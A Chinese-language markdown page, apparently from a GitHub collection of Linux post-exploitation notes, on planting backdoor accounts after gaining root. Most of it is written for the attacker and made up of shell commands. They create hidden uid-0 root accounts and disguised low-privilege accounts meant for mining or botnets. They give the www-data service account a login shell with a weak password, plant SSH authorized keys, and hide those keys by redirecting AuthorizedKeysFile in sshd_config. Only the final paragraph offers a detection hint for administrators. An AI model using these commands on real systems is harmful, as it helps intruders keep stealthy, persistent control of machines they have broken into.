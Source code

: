 ## 后门账户

常规加账户的基操差不多是这样的。

```shell
useradd -d /home/aplyc1a -c "aplyc1a" aplyc1a -s /bin/bash -m
passwd aplyc1a
```

攻击者拿下设备root权限后，可能会手工放置后门账户。留后门账户的手法相对而言比较固定，归根到底是动/etc/shadow、/etc/passwd文件，或加入免密公钥。使用过程中可以关注从名称及文件位置的角度增强后门账户的隐蔽性。

```shell
#shadow root后门账户
useradd -u 0 -o -g root -G root -M -s /bin/bash admin
# 也可以通过修改现有账户uid、gid实现
usermod -u 0 -o hips-user4



#普通权限的后门账户，但是名字有很强的迷惑性，可用于挖矿，botnet等。
useradd -d /x -c "config" -s /bin/bash config -m、
useradd -d /home/... -s /bin/bash x -m
#  也可以通过修改现有账户实现，如下通过让本身没有shell的账户变成可登录账户。
chsh -s /bin/sh www-data
echo "123456" | passwd –-stdin www-data
```



最常见的其实是攻击者在.ssh目录下放置自己的服务器公钥，实现免密登录持久化。这种方式本身隐蔽性是极强的，然而现在用多了大家都知道了之后，实际效果反而不是那么好。公钥一般加在：

```shell
~/.ssh/authorized_keys
```

我们也可以修改/etc/ssh/sshd_config中的AuthorizedKeysFile字段，隐藏我们真正的公钥。如下：

```shell
cat /etc/ssh/sshd_config|grep AuthorizedKeysFile
AuthorizedKeysFile    .cache

#others_user
ln /root/.ssh/authorized_keys ~/.cache/ssh.rc

#target_user
mkdir -p ~${target_user}/.cache
echo "xxxxxxxxxxxxxxxxxxxxxxxx" >> ~/.cache/ssh.rc

#这样，正常用户的免密公钥也能正常使用，我们只需要有针对性地维护目标用户即可。
```











对运维人员来说，可以重点关注如果账户被删掉了，但进程还在会ps等命令中会表现为一个编号。同时如果账号本身名称过长，在ps中会显示前7-8位后面替换成+号。

